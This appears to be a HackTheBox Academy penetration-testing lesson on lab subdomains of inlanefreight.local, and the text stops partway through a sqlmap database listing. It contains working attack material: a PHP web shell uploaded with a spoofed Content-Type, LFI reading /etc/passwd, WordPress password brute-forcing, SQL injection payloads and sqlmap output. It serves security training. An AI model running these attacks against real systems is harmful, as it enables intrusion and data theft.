# Web Enumeration & Exploitation

---

As mentioned in the previous section, web applications are where we usually spend most of our time during an External Penetration Test. They often present a vast attack surface and can suffer from many classes of vulnerabilities that can lead to remote code execution or sensitive data exposure, so we should be thorough with them. One thing to remember is that there is a difference between a `Web Application Security Assessment (WASA)` and an `External Penetration Test`. In a WASA, we are typically tasked with finding and reporting any and all vulnerabilities, no matter how mundane (i.e., a web server version in the HTTP response headers, a cookie missing the Secure or HttpOnly flag, etc.). We don't want to get bogged down with these types of findings during an External Penetration Test since we typically have a lot of ground to cover. The Scope of Work (SoW) document should clearly differentiate between the two assessment types. It should explicitly state that during an External Penetration Test, we will perform `cursory` web application testing, looking for high-risk vulnerabilities. If we don't have many findings at all, we can dig into the web applications deeper, and we can always include a catch-all `Best Practice Recommendation` or `Informational` finding that lists out several common security-related HTTP response header issues that we see all the time, among other minor issues. This way, we've fulfilled the contract by going after the big issues such as SQL injection, unrestricted file upload, XSS, XXE, file inclusion attacks, command injections, etc., but covered ourselves with the informational finding in case the client comes back asking why we didn't report X.

---

## Web Application Enumeration

The quickest and most efficient way to get through a bunch of web applications is using a tool such as [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) to take screenshots of each web application as covered in the `Attacking Common Applications` module in the [Application Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1088) section. This is particularly helpful if we have a massive scope for our assessment and browsing each web application one at a time is not feasible. In our case, we have `11` subdomains/vhosts (for now), so it's worth firing up EyeWitness to help us out as we want to be as efficient as possible to give the client the best possible assessment. This means speeding up any tasks that can be performed `faster` and more efficiently `without the possibility of missing things`. Automation is great, but if we're missing half of whatever we're going after, then the automation is doing more harm than good. Make sure you understand what your tools are doing, and periodically spot-check things to ensure your tools and any custom scripts are working as expected.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ cat ilfreight_subdomains

inlanefreight.local 
blog.inlanefreight.local 
careers.inlanefreight.local 
dev.inlanefreight.local 
gitlab.inlanefreight.local 
ir.inlanefreight.local 
status.inlanefreight.local 
support.inlanefreight.local 
tracking.inlanefreight.local 
vpn.inlanefreight.local
monitoring.inlanefreight.local
```

We can feed EyeWitness an Nmap .xml file or a Nessus scan, which is useful when we have a large scope with many open ports, which can often be the case during an Internal Penetration Test. In our case, we'll just use the `-f` flag to give it the list of subdomains in a text file we enumerated earlier.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ eyewitness -f ilfreight_subdomains -d ILFREIGHT_subdomain_EyeWitness

################################################################################
#                                  EyeWitness                                  #
################################################################################
#           FortyNorth Security - https://www.fortynorthsecurity.com           #
################################################################################

Starting Web Requests (11 Hosts)
Attempting to screenshot http://inlanefreight.local
Attempting to screenshot http://blog.inlanefreight.local
Attempting to screenshot http://careers.inlanefreight.local
Attempting to screenshot http://dev.inlanefreight.local
Attempting to screenshot http://gitlab.inlanefreight.local
Attempting to screenshot http://ir.inlanefreight.local
Attempting to screenshot http://status.inlanefreight.local
Attempting to screenshot http://support.inlanefreight.local
Attempting to screenshot http://tracking.inlanefreight.local
Attempting to screenshot http://vpn.inlanefreight.local
Attempting to screenshot http://monitoring.inlanefreight.local
Finished in 34.79010033607483 seconds

[*] Done! Report written in the /home/tester/INLANEFREIGHT-IPT/Evidence/Scans/Web/ILFREIGHT_subdomain_EyeWitness folder!
Would you like to open the report now? [Y/n]
n
```



The EyeWitness results show us multiple very interesting hosts, any one of which could potentially be leveraged to gain a foothold into the internal network. Let's work through them one by one.

---

## blog.inlanefreight.local

First up is the `blog.inlanefreight.local` subdomain. At first glance, it looks promising. The site seems to be a forgotten Drupal install or perhaps a test site that was set up and never hardened. We can consult the [Drupal - Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1089) of the `Attacking Common Applications` module for ideas.



Using `cURL`, we can see that Drupal 9 is in use.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl -s http://blog.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 9 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

A quick Google search shows us that the current stable Drupal version intended for production is [release 9.4](https://www.drupal.org/project/drupal/releases), so we probably will have to get lucky and find some sort of misconfiguration such as a weak admin password to abuse built-in functionality or a vulnerable plugin. Well-known vulnerabilities such as `Drupalgeddon 1-3` do not affect version 9.x of Drupal, so that's a dead-end. Trying to log in with a few weak password combinations such as `admin:admin`, `admin:Welcome1`, etc., do not bear fruit. Attempting to register a user also fails, so we move on to the next application.

We could note in our report that this Drupal instance looks like it's not in use and could be worth taking down to further reduce the overall external attack surface.

---

## careers.inlanefreight.local

Next up is the careers subdomain. These types of sites often allow a user to register an account, upload a CV, and potentially a profile picture. This could be an interesting avenue of attack. Browsing first to the login page `http://careers.inlanefreight.local/login`, we can try some common authentication bypasses and try fuzzing the login form to try to bypass authentication or provoke some sort of error message or time delay that would be indicative of a SQL injection. As always, we test a few weak password combinations such as `admin:admin`. We should also always test login forms (and forgot password forms if they exist) for username enumeration, but none is apparent in this case.

The `http://careers.inlanefreight.local/apply` page allows us to apply for a job and upload a CV. Testing this functionality shows that it allows any file type to upload, but the HTTP response does not show where the file is located after upload. Directory brute-forcing does not yield any interesting directories such as `/files` or `/uploads` that could house a web shell if we can successfully upload a malicious file.

It's always a good idea to test user registration functionality on any web applications we come across, as these can lead to all sorts of issues. In the HTB box [Academy](https://0xdf.gitlab.io/2021/02/27/htb-academy.html), it is possible to register on a web application and modify our role to that of an admin at registration time. This was inspired by an actual External Penetration Test finding where I was able to register on an internet-facing web application for as many as five different user roles. Once logged into that application, all sorts of IDOR vulnerabilities existed, resulting in broken authorization on many pages.

Let's go ahead and register an account at `http://careers.inlanefreight.local/register` and look around. We register an account with bogus details: `test@test.com` and the credentials `pentester:Str0ngP@ssw0rd!`. Sometimes we'll need to use an actual email address to receive an activation link. We can use a disposable email service such as [10 Minute Mail](https://10minutemail.com/) not to clutter up our inbox or keep a dummy account with ProtonMail mail or similar just for testing purposes. You'll be happy you didn't use your actual email address the first time Burp Suite Active Scanner hits a form and sends you 1,000+ emails in rapid succession. Register with decently strong credentials, too. You don't want to introduce a security issue into the web application you're tasked with testing by registering with credentials such as `test:test` that could potentially be left on the application long after the test is over (though we should, of course, list in an appendix of our report any modifications made during testing, even registering on a public-facing website).

Once registered, we can log in and browse around. We're greeted with our profile page at `http://careers.inlanefreight.local/profile?id=9`. Attempting to fuzz the `id` parameter for SQLi, command injection, file inclusion, XSS, etc., does not prove fruitful. The ID number itself is interesting. Tweaking this number shows us that we can access other users' profiles and see what jobs they applied to. This is a classic example of an `Insecure Direct Object Reference (IDOR)` vulnerability and would definitely be worth reporting due to the potential for sensitive data exposure.

After exhausting all options here, we walk away with one decent reportable vulnerability to add to our findings list and move on to the next web application. We can use any directory brute-forcing tool here, but we'll go with [Gobuster](https://github.com/OJ/gobuster).

---

## dev.inlanefreight.local

The web application at `http://dev.inlanefreight.local` is simple yet catches the eye. Anything with `dev` in the URL or name is interesting, as this could potentially be accidentally exposed and riddled with flaws/not production-ready. The application presents a simple login form titled `Key Vault`. This looks like a homegrown password manager or similar and could lead to considerable data exposure if we can get in. Weak password combinations and authentication bypass payloads don't get us anywhere, so let's go back to the basics and look for other pages and directories. Let's try first with the `common.txt` wordlist using `.php` file extensions for the first run.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ gobuster dir -u http://dev.inlanefreight.local -w /usr/share/wordlists/dirb/common.txt -x .php -t 300

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.inlanefreight.local
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/06/20 22:04:48 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 288]
/.htpasswd            (Status: 403) [Size: 288]
/.hta                 (Status: 403) [Size: 288]
/.htpasswd.php        (Status: 403) [Size: 288]
/.hta.php             (Status: 403) [Size: 288]
/css                  (Status: 301) [Size: 332] [--> http://dev.inlanefreight.local/css/]
/images               (Status: 301) [Size: 335] [--> http://dev.inlanefreight.local/images/]
/index.php            (Status: 200) [Size: 2048]                                            
/index.php            (Status: 200) [Size: 2048]                                            
/js                   (Status: 301) [Size: 331] [--> http://dev.inlanefreight.local/js/]    
/server-status        (Status: 403) [Size: 288]                                             
/uploads              (Status: 301) [Size: 336] [--> http://dev.inlanefreight.local/uploads/]
/upload.php           (Status: 200) [Size: 14]                                               
/.htaccess.php        (Status: 403) [Size: 288]                                              
                                                                                             
===============================================================
2022/06/20 22:05:02 Finished
===============================================================
```

We get a few interesting hits. The files with a `403` forbidden error code typically mean that the files exist, but the webserver doesn't allow us to browse to them anonymously. The `uploads` and `upload.php` pages immediately call our attention. If we're able to upload a PHP web shell, chances are we can browse right to it in the `/uploads` directory, which has directory listing enabled. We can note this down as a valid low-risk finding, `Directory Listing Enabled`, and capture the necessary evidence to make report writing quick and painless. Browsing to `/upload.php` gives us a `403 Forbidden` error message and nothing more, which is interesting because the status code is a `200 OK` success code. Let's dig into this deeper.

We'll need Burp Suite here to capture the request and see if we can figure out what's going on. If we capture the request and send it to Burp Repeater and then re-request the page using the `OPTIONS` method, we see that various methods are allowed: `GET,POST,PUT,TRACK,OPTIONS`. Cycling through the various options, each gives us a server error until we try the `TRACK` method and see that the `X-Custom-IP-Authorization:` header is set in the HTTP response. We can consult the [Web Attacks](https://academy.hackthebox.com/module/134/section/1159) modules on `HTTP Verb Tampering` for a refresher on this attack type.



Playing around a bit with the request and adding the header `X-Custom-IP-Authorization: 127.0.0.1` to the HTTP request in Burp Repeater and then requesting the page with the `TRACK` method again yields an interesting result. We see what appears to be a file upload form in the HTTP response body.



If we right-click anywhere in the `Response` window in `Repeater` we can select `show response in browser`, copy the resultant URL and request it in the browser we are using with the Burp proxy. A photo editing platform loads for us.


We can click on the `Browse` button and attempt to upload a simple webshell with the following contents:

Code: php

```php
<?php system($_GET['cmd']); ?>
```

Save the file as `5351bf7271abaa2267e03c9ef6393f13.php` or something similar. It's a good practice to create random file names when uploading a web shell to a public-facing website so a random attacker doesn't happen upon it. In our case, we'd want to use something password protected or restricted to our IP address since directory listing is enabled, and anyone could browse to the `/uploads` directory and find it. Attempting to upload the `.php` file directly results in an error: "`JPG, JPEG, PNG & GIF files are allowed.`", which shows that some weak client-side validation is likely in place. We can grab the POST request, send it to Repeater once again and try modifying the `Content-Type:` header in the request to see if we can trick the application into accepting our file as valid. We'll try altering the header to `Content-Type: image/png` to pass off our web shell as a valid PNG image file. It works! We get the following response: `File uploaded /uploads/5351bf7271abaa2267e03c9ef6393f13.php`.

We can now use `cURL` to interact with this web shell and execute commands on the web server.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Checking the host's IP addressing, it doesn't appear that we've landed inside the Inlanefreight internal network as the IP address is not within the internal network scope. This may just be a standalone web server, so we'll continue on.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3
```

From here, we can enumerate the host further, looking for sensitive data, note down another two findings: `HTTP Verb Tampering` and `Unrestricted File Upload`, and move on to the next host.

---

## ir.inlanefreight.local

The next target in our list is `http://ir.inlanefreight.local`, the company's Investor Relations Portal hosted with WordPress. For this we can consult the [WordPress - Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1100) section of the `Attacking Common Applications` module. Let's fire up `WPScan` and see what we can enumerate using the `-ap` flag to enumerate all plugins.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] b2i-investor-tools
 | Location: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/
 | Latest Version: 1.0.5 (up to date)
 | Last Updated: 2022-06-17T15:21:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0.5 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/style.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/export.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/wb_script.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amcharts.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/serial.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amstock.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/export.js?ver=1.0.5
 | Confirmed By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt

[+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:07:09 2022
[+] Requests Done: 35
[+] Cached Requests: 7
[+] Data Sent: 9.187 KB
[+] Data Received: 164.854 KB
[+] Memory used: 224.816 M
```

From the scan, we can deduce the following bits of information:

- The WordPress core version is the latest (6.0 at the time of writing)
- The theme in use is `cbusiness-investment`
- The `b2i-investor-tools` plugin is installed
- The `mail-masta` plugin is installed

The `Mail Masta` plugin is an older plugin with several known vulnerabilities. We can use [this](https://www.exploit-db.com/exploits/50226) exploit to read files on the underlying file system by leveraging a Local File Inclusion (LFI) vulnerability.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

We can add another finding to our list: `Local File Inclusion (LFI)`. Next, let's move on and see if we can enumerate WordPress users using `WPScan`.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ wpscan -e u -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:14:33 2022
[+] Requests Done: 28
[+] Cached Requests: 37
[+] Data Sent: 8.495 KB
[+] Data Received: 269.719 KB
[+] Memory used: 176.859 MB
[+] Elapsed time: 00:00:0
```

We find several users:

- ilfreightwp
- tom
- james
- john

Let's try to brute-force one of the account passwords using [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) wordlist from the `SecLists` GitHub repo. Using `WPScan` again, we get a hit for the `ilfreightwp` account.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - ilfreightwp / password1                                                                              
Trying ilfreightwp / 123123 Time: 00:00:00 <===                                > (10 / 109)  9.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:31:34 2022
[+] Requests Done: 186
[+] Cached Requests: 7
[+] Data Sent: 54.2 KB
[+] Data Received: 253.754 KB
[+] Memory used: 241.836 MB
[+] Elapsed time: 00:00:16
```

From here, we can browse to `http://ir.inlanefreight.local/wp-login.php` and log in using the credentials `ilfreightwp:password1`. Once logged in, we'll be directed to `http://ir.inlanefreight.local/wp-admin/` where we can browse to `http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty` to edit the 404.php file for the inactive theme `Twenty Twenty` and add in a PHP web shell to get remote code execution. After editing this page and achieving code execution following the steps in the [Attacking WordPress](https://academy.hackthebox.com/module/113/section/1208) section of the `Attacking Common Applications` module, we can record yet another finding for `Weak WordPress Admin Credentials` and recommend that our client implement several hardening measures if they plan to leave this WordPress site exposed externally.

---

## status.inlanefreight.local

This site looks like another forgotten one that shouldn't be exposed to the internet. It seems like it's some sort of internal application to search through logs. Entering a single quote (`'`) throws a MySQL error message which indicates the presence of a SQL injection vulnerability: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1`. We can exploit this manually using a payload such as:

Code: sql

```sql
' union select null, database(), user(), @@version -- //
```

This is an example of a [SQL Injection UNION attack](https://academy.hackthebox.com/module/33/section/806).

We can also use sqlmap to exploit this also. First, capture the POST request using Burp, save it to a file, and mark the `searchitem` parameter with a `*` so sqlmap knows where to inject.

Web Enumeration & Exploitation

```shell-session
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```

Next, we run this through sqlmap as follows:

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql 

<SNIP>

[00:07:24] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 6921=6921#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x716a7a7171),NULL#
---
[00:07:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[00:07:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:07:38 /2022-06-21/
```

Next, we can enumerate the available databases and see that the `status` database is particularly interesting:

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql --dbs

<SNIP>

---
[00:09:24] [INFO] testing MySQL
[00:09:24] [INFO] confirming MySQL
[00:09:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:09:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
